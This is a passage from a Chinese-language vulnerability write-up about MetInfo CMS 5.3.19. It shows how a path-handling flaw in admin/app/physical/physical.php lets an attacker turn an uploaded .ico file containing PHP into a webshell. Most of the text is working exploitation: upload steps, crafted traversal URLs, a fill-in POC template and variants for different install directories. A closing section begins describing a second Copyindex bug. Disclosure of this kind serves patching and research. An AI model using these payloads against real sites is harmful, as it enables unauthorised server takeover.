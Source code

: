 即：5.3.19版本采取：即使在$var[2]为空时，默认给address变量赋值为空，并且会判断address参数不为空才调用Copyfile。但是当$var[2]不为空时，由于fileaddr[1]可控导致，仍然可以控制文件路径从而Getshell。

漏洞利用(网站安装在服务器根路径的情况)：

第一步，新建1.ico文件，内容为：<?php phpinfo();?>
在后台"地址栏图标"处上传该文件。
得到地址为：http://localhost/upload/file/1506587082.ico

第二步，发送如下payload(注意左斜杠和右斜杠不能随意更改):

```
http://localhost/admin/app/physical/physical.php?action=op&op=3&valphy=test|/..\upload\file\1506587082.ico/..\..\..\www\about\shell.php|1
```

shell的地址为：

```
http://localhost/about/shell.php
```

### 3. POC(注意左斜杠和右斜杠不能随意更改)：

```
http://localhost/admin/app/physical/physical.php?action=op&op=3&valphy=test|/..\上传ico文件的相对路径/..\..\..\网站index.php路径的上一层目录名\about\webshell的文件名|1
```

特别注意其中的：“网站index.php上层目录名”，

1.如果网站安装在服务器根目录，这wamp/phpstudy默认目录值为“www"；网站index.php上层目录名设置为"www"; 如果为lamp环境，这默认目录值为“html”网站index.php上层目录名设置为"html";。其他的环境类推（利用绝对路径泄露）。

2.如果网站安装在服务器的二级目录下，则网站index.php上层目录名设置为二级目录名。

例如:网站搭建在:http://localhost/MetInfoCMS /,则第二步的payload如下：

```
http://localhost/MetInfoCMS/admin/app/physical/physical.php?action=op&op=3&valphy=test|/..\upload\file\1506588072.ico/..\MetInfoCMS.\MetInfoCMS \about\shell.php|1
```

相应生成的shell地址为：

```
http://localhost/MetInfoCMS/about/shell.php
```

## 0x03 Copyindx函数处理不当Getshell

### 1. 声明

此漏洞点位于admin/app/physical/physical.php文件，漏洞和CVE-2017-11347漏洞十分相似，但是存在根本的差异，不同点如下：

（1）触发函数是Copyindex函数，而非Copyfile

（2）此漏洞不是利用文件包含require_one，而是利用任意内容写入

（3）此漏洞Getshell不需要上传图片

